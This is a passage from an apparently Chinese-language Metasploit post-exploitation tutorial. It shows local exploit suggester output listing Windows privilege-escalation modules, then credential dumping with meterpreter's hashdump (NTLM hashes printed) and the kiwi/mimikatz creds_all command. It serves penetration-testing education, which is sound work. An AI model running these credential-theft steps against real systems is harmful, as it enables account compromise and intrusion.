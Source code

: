 ```console
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 8   exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 9   exploit/windows/local/bits_ntlm_token_impersonation            No                       The check raised an exception.
 10  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found
 11  exploit/windows/local/capcom_sys_exec                          No                       The target is not exploitable.
 12  exploit/windows/local/cve_2019_1458_wizardopium                No                       The target is not exploitable.
 13  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   No                       The target is not exploitable. The build number of the target machine does not appear to be a vulnerable version!
 ......

meterpreter >
```

### 凭证转储

#### hashdump

获取本地用户哈希：

```console
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:0cb6948805f797bf2a82807973b89537:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f0d8c96aa9cc58f05549e55e6b1f5c7f:::
```

#### mimikatz - kiwi

> 注：msf 中 mimikatz 扩展名已由 kiwi 代替。

加载 kiwi 模块，获取所有主机上的所有凭据：

```console
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
```